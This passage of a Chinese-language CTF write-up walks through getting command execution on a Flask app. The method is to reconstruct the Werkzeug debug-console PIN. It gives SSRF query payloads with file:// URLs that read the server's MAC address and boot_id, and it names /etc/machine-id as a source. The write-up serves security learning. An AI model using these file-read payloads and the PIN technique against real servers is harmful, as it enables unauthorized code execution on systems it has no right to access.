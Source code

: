 这里伪造session能得到flag，但是根本没有cookie，伪造不了，题目也提示了。但是可以发现debug开启监听在1314端口，那么结合`CURLOPT_HTTPHEADER`包含头部信息，我们可以计算pin码手动生成cookie然后上传用于身份验证，从而命令执行

PIN 的生成流程分析，可以知道 PIN 主要由 probably_public_bits 和 private_bits 两个列表变量决定，而这两个列表变量又由如下6个变量决定：

```python
username 启动这个 Flask 的用户
modname 一般默认 flask.app
getattr(app, '__name__', getattr(app.__class__, '__name__')) 一般默认 flask.app 为 Flask
getattr(mod, '__file__', None)为 flask 目录下的一个 app.py 的绝对路径,可在爆错页面看到
str(uuid.getnode()) 则是网卡 MAC 地址的十进制表达式
get_machine_id() 系统 id
```

- 我们知道用户为`root`
- 绝对路径这里我没爆不出来

```
/usr/local/lib/python3.10/dist-packages/flask/app.py
```

- 接着获取网卡 MAC 地址

```
?url=file:///sys/class/net/eth0/address&lolita[]=
```

然后十六进制转十进制
 ![在这里插入图片描述](assets/8cbfce94a7274591be548beaa61ca058.png)

- 最后的系统id包括两部分，我们先读取`/etc/machine-id`（也可以是`/proc/sys/kernel/random/boot_id`）

```
?url=file:///proc/sys/kernel/random/boot_id&lolita[]=
```
